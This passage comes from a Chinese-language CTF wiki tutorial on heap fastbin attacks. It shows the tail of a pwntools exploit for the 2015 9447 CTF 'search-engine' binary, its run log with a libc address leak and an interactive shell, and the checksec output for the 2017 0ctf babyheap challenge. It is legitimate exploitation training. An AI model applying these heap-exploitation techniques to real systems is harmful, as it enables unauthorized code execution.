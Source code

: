 ```python
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

這裏可能需要多選擇幾個 one_gadget 地址，因爲 one_gadget 成功是有條件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

當然，這裏還有一種[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，將 chunk 分配到棧上。

## 2017 0ctf babyheap
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2017_0ctf_babyheap)

### 基本信息

```shell
➜  2017_0ctf_babyheap git:(master) file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
➜  2017_0ctf_babyheap git:(master) checksec babyheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64位程序，保護全部開啓。
